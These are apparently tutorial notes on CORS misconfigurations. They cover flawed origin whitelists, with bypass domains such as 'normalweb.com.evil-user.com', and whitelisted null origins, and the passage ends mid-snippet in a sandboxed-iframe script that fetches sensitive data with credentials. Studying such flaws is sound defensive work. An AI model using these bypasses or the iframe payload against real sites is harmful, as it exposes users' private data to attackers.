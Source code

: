 ## Errors parsing Origin headers
- some applications that support access from multiple origins do so by using a whitelist of allowed origins.
- when a CORS request is received, the supplied origin is compared to the whitelist, if the origin appears on the whitelist then it is reflected in the `ACAO` header so that access is granted.
- `example:` 
```js
GET /data HTTP/1.1 
Host: normalweb.com
...
Origin: http://innocent-web.com
```
here the application checks the supplied origin against its list of allowed origins and if it is on the list, reflects the origin as
```js
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://innocent-web.com
```

- Mistakes arise when Implementing `CORS` origin whitelist. 
- some organization decide to allow access from all their subdomains(including future subdomain yet not in existence).
- some applications allow access from various other organizations's domains including their SUbdomains.
- these rules often implemented by matching `URL prefixes or Suffixes or using regular expressions `, any mistakes in the implementation can lead to access being granted to unintended external domains
- `Example: ` application grants access to all domains ending `normalweb.com` 
`Bypass:` `hackersnormalweb.com` easily bypassed 
- `Example2: ` application grants access to all domains beginning with `normalweb.com` `Bypass:` `normalweb.com.evil-user.com`

### Whitelisted Null Origin Value
- origin header supports `null` value, and browsers might send the value `null` in the origin header in various unusual situation.
	1. Cross-site Redirects
	2. Request from serialized data
	3. Request using the `file:` protocol
	4. Sandboxed cross-origin request
- some application whitelist the null origin to support local development of the application.
-`Example:` application receive cross-domain request
```js
GET /sensitive-data HTTP/1.1
Host: vuln-web.com
Origin: null
```
got response
```js
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Conteol-Allow-Credentials: true
```
- attacker cab use various tricks to generate a cross-domain request containing null in `Origin` header by various method
`Example:`   by doing `Sandboxed iframe` cross-origin request of the form
```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req= new XMLHttpRequest();
req.onload= reqListener;
req.open('get','vuln-web.com/sensitive-data',true);
req.withCredentials = true;
req.send();
```